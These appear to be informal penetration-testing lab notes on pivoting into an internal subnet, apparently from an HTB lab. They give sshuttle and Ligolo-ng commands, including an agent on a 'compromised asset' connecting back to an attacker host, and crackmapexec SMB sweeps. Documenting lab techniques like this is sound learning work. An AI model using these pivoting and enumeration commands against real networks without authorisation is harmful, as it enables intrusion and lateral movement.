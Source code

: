 Let's see among the 5 host which we can ping ?_?

So 1st thing that came to my mind is sshuttle 
```
sshuttle -r linux-admin@10.201.11.33 -N
```
![[Pasted image 20240822204612.png]]


```
http://10.201.11.30/
```
![[Pasted image 20240822205040.png]]

So it was simple but but let's try it a different tool that i am trying to use for a long time
and yes you have guessed it right.


## Ligolo-ng

Let's set up the agent and upload the proxy in the compromised asset.

Proxy | Attacker :  10.51.9.13

Agent | Compromised Asset : 10.201.11.33

gunzip

tar -xvzf 

```
ip tuntap add user root mode tun ligolo
```

```
ip link set ligolo up
```

```
ip route add 10.201.11.0/24 dev ligolo
```

![[Pasted image 20240823110914.png]]



## Attacker
```
sudo ./proxy -selfcert
```


Compromised
```
chmod +x agent
```

```
./agent -connect 10.51.9.13:11601 -ignore-cert
```


So again the box got dead so i think i will not able to use option for some reason and wait for HTB dante.


Let's go with Sshuttle for now and see which attacks we can perform.

<hr>

To test if we have successfully pivoted or not  this is the command

```
crackmapexec smb 10.201.11.0/24
```
![[Pasted image 20240823130758.png]]

So let's see which attacks and information we get so that we can configure an attack that wise.

